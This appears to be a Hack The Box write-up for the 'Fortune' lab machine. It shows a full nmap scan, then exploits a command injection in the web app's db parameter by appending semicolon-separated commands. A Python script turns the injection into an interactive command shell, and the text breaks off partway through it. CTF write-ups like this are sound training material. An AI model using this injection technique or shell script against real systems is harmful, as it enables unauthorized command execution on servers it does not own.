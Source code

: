 ## Detailed steps

### Nmap

This box runs SSH and the OpenBSD httpd web server with both HTTP and HTTPS ports open.

```
# nmap -sC -sV -p- -oA fortune fortune.htb
Starting Nmap 7.70 ( https://nmap.org ) at 2019-03-09 19:01 EST
Nmap scan report for fortune.htb (10.10.10.127)
Host is up (0.012s latency).
Not shown: 65532 closed ports
PORT    STATE SERVICE    VERSION
22/tcp  open  ssh        OpenSSH 7.9 (protocol 2.0)
| ssh-hostkey:
|   2048 07:ca:21:f4:e0:d2:c6:9e:a8:f7:61:df:d7:ef:b1:f4 (RSA)
|   256 30:4b:25:47:17:84:af:60:e2:80:20:9d:fd:86:88:46 (ECDSA)
|_  256 93:56:4a:ee:87:9d:f6:5b:f9:d9:25:a6:d8:e0:08:7e (ED25519)
80/tcp  open  http       OpenBSD httpd
|_http-server-header: OpenBSD httpd
|_http-title: Fortune
443/tcp open  ssl/https?
|_ssl-date: TLS randomness does not represent time
```

### Command injection on the fortune web app

The website shows a list of databases that I can select, then it runs the `fortune` application to return random quotes.

From the man page:
>fortune — print a random, hopefully interesting, adage

![](/assets/images/htb-writeup-fortune/fortune1.png)

![](/assets/images/htb-writeup-fortune/fortune2.png)

The fortune web app has a pretty trivial command injection vulnerability. It simply appends what I pass in the `db` parameter to the `fortune` application call. I can run arbitrary commands and programs simply by adding a semi-colon after the database name.

The example here shows I can run `id` and list the root directory:

![](/assets/images/htb-writeup-fortune/fortune3.png)

Because I wasn't sure how much time I'd need to spend poking around the system through that command injection vulnerability, I wrote a quick python script that runs commands and cleans up the output. The output of all commands is displayed to screen and also saved to `output.txt`.

```python
#!/usr/bin/python

import re
import readline
import requests

f = open("output.txt", "a")

while True:
    cmd = raw_input("> ")
    data = { "db": ";echo '****';{}".format(cmd)}
    r = requests.post("http://fortune.htb/select", data=data)
    m = re.search("\*\*\*\*(.*)</pre>", r.text, re.DOTALL)
    if m:
        print m.group(1)
        f.write("CMD: {}".format(cmd))
```